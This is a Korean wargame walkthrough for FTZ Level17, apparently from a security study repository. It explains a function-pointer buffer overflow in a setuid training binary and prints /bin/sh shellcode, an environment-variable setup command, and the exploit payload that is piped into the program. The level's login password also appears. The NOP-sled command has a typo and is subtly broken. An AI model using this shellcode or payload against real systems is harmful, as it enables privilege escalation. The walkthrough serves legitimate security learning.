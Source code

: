 # FTZ Level17

#### ID : level17 PW: king poetic
<br>

**먼저 ```ls -l```을 이용해 어떤 파일이 있는지 살펴보자**<br> 
attackme 프로그램에 level18의 권한으로 setuid가 걸려있는 것을 확인할 수 있다.<br><br>
우선 hint의 내용을 보자<br>
```cat hint```<br>
```c
#include <stdio.h>

main()
{
      void printit(){
        printf("Hello there!\n");
      }
      main(){
        int crap;
        void (*call)()=printit;
        char buf[20];
        fgets(buf, 48, stdin);
        setreuid(3098, 3098);
        call();
      }
}
```
Level16과 매우 비슷한데 shell 함수만 없다. 그러므로 환경변수에 쉘 코드를 등록하는 방법을 이용할 것이다.

우리의 목적을 생각해보자.<br>
1. buf에서 *call까지 거리 구하기
2. 쉘 코드 환경변수 등록 후 주소 확인
3. *call 위치 쉘 코드 주소로 덮어 씌우기
3. 공격!

buf에서 *call까지의 거리는 level16과 동일하므로 40이다<br>
[ftz_level16.md 참고하기](https://github.com/white-bean/security-study/blob/master/ftz/ftz_level16.md)

이제 쉘 코드를 등록하고 주소를 찾아보자.<br>
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80<br>

```export shellcode=$(python -c 'print "\n90"*20+\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')```<br>
vi에디터를 이용해 쉘 코드의 주소값을 받아오는 코드를 작성한다.<br>
```vi shell.c```<br>
```c
#include <stdio.h>

int main()
{
    printf("%p\n", getenv("shellcode"));
    return 0;
}
```
```
gcc -o shell shell.c
./shell
```
만든 코드를 실행시키면 쉘 코드의 주소값을 알 수 있다.<br>
필자의 경우 0xbffffef4가 나왔다.<br>

그렇다면 우리가 작성할 페이로드는 다음과 같다고 할 수 있다.<br>
**"A"*(buf~call까지 거리)+(0xbffffef4)**<br>

**이제 페이로드를 작성해보자.**<br>
```(python -c 'print "A"*40+"\xf4\xfe\xff\xbf"';cat)|./attackme```<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
```cd ..``` 다시 원래 디렉토리로 되돌아가서<br>
**공격 실시!**<br>
```(python -c 'print "A"*40+"\xf4\xfe\xff\xbf"';cat)|./attackme```<br>
```my-pass```로 비밀번호를 물어보면<br>
Level18 Password is "~~". 라고 나올 것이다!!
